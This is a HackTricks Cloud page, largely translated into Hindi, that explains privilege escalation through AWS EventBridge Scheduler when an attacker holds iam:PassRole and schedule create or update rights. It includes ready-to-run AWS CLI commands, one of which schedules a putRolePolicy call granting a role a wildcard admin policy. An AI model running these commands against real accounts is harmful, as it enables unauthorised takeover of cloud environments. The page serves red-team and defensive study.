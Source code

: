 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler के बारे में अधिक जानकारी:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

एक हमलावर जिसके पास ये अनुमतियाँ हैं, वह **`create`|`update` एक शेड्यूलर कर सकेगा और उस पर जुड़े शेड्यूलर भूमिका के अनुमतियों का दुरुपयोग कर सकेगा** किसी भी क्रिया को करने के लिए।

उदाहरण के लिए, वे शेड्यूल को **एक Lambda फ़ंक्शन को कॉल करने के लिए कॉन्फ़िगर कर सकते हैं** जो एक टेम्पलेटेड क्रिया है:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Scheduler में टेम्पलेटेड सेवा क्रियाओं के अलावा, आप कई AWS सेवाओं के लिए API संचालन को सक्रिय करने के लिए **universal targets** का उपयोग कर सकते हैं। Universal targets लगभग किसी भी API को सक्रिय करने के लिए लचीलापन प्रदान करते हैं। एक उदाहरण यह हो सकता है कि universal targets का उपयोग करते हुए "**AdminAccessPolicy**" जोड़ना, एक भूमिका का उपयोग करते हुए जिसमें "**putRolePolicy**" नीति है:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## संदर्भ

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
